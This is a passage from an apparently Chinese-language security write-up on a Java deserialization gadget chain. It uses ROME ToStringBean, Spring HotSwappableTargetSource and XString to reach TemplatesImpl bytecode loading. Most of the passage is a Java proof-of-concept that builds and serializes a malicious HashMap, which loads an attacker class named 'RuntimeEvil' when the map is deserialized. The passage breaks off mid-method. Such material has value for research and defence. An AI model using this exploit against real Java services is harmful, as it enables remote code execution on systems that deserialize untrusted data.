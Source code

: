 key.equals(k)。先put进参数k，再put进key

这里之所以能直接走进else里，是因为HotSwappableTargetSource.hashCode都是返回同一个值

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240926132312495.png)

POC：

```java
package org.exploit.third.rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;
import com.sun.syndication.feed.impl.ToStringBean;
import org.springframework.aop.target.HotSwappableTargetSource;

import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

//HashMap.readObject
//HashMap.putVal
//HotSwappableTargetSource.equals
//XString.equals
//ToStringBean.toString
public class rome_HotSwappableTargetSource {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        TemplatesImpl fakeTemplates = new TemplatesImpl();
        ToStringBean toStringBean = new ToStringBean(Templates.class, fakeTemplates);
        XString xString = new XString(null);
//        xString.equals(toStringBean);
        HotSwappableTargetSource hotSwappableTargetSource_InputObj = new HotSwappableTargetSource(toStringBean);
        HotSwappableTargetSource hotSwappableTargetSource = new HotSwappableTargetSource(xString);
//        hotSwappableTargetSource.equals(hotSwappableTargetSource_InputObj);
        HashMap hashMap = new HashMap();
        hashMap.put(hotSwappableTargetSource_InputObj,"godown");
        hashMap.put(hotSwappableTargetSource,"godown");
        Field toStringBean_objField = ToStringBean.class.getDeclaredField("_obj");
        toStringBean_objField.setAccessible(true);
        toStringBean_objField.set(toStringBean, templatesClass);
        serialize(hashMap);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
```